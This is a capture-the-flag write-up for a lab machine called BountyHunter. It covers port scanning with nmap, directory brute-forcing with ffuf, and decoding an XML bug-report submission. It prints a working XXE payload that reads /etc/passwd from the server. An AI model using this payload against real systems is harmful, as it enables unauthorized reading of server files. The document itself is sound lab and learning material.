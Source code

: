 # BountyHunter

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
nmap -v -sS -sV -sC -T4 -p- -oA bountyhunter-full-tcp 10.129.95.166

# Results
Nmap scan report for 10.129.95.166
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 23 11:53:23 2024 -- 1 IP address (1 host up) scanned in 27.94 seconds
```

# HTTTP (Port 80)

Port 80 hosts a Bug Bounty submission page, browsing around there are a few stand out pages, such as a contact form which could be used for injection, however more interestingly a portal used for submitting bugs to the system. 

![image](https://github.com/user-attachments/assets/b08ce87c-dddc-4237-b0e3-6b0d70e71c5c)

A message is displayed on submission stating the DB isn't setup, however, the results are returned to the page. Not taking the comment at face value, I try some basic injection attacks including SQL but nothing works.

Some other paths were discovered using ffuf:

  Command line : `ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://bountyhunter/assets/FUZZ -t 2 -v -o ffuf-forced-browsing-directories -of md`

These were /assets and /resources. Whilst nothing of interest was found using assets, resources displayed a directory listing. I was unable to find anything sensitive but some of the files did help give an understanding of how the application was working, epecially the bounty submission form. 

When submitting the form the value is encoded using Base64 and URL encoding. 

```bash
# Enoded payload
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5hYTwvdGl0bGU%2BCgkJPGN3ZT5iYjwvY3dlPgoJCTxjdnNzPmNjPC9jdnNzPgoJCTxyZXdhcmQ%2BZGQ8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D

# Decoded Payload
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>Test</title>
		<cwe>101</cwe>
		<cvss>10</cvss>
		<reward>&names;</reward>
		</bugreport>
```

This is interesting because it is submitting XML to the server, I decided to try adding a basic XXE payload to the saubmision and re-encoding. The updated XML became:

```bash
# Updated XML
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE data [
		<!ENTITY names SYSTEM "/etc/passwd">
		]>
		<bugreport>
		<title>Test</title>
		<cwe>101</cwe>
		<cvss>10</cvss>
		<reward>&names;</reward>
		</bugreport>
```

After encoding and resubmitting, I was able to view the /etc/passwd file, see screenshot below:

![image](https://github.com/user-attachments/assets/032c3181-48ad-4604-9452-8de41cb168c5)

I could now start looking for more interesting data on the system. 
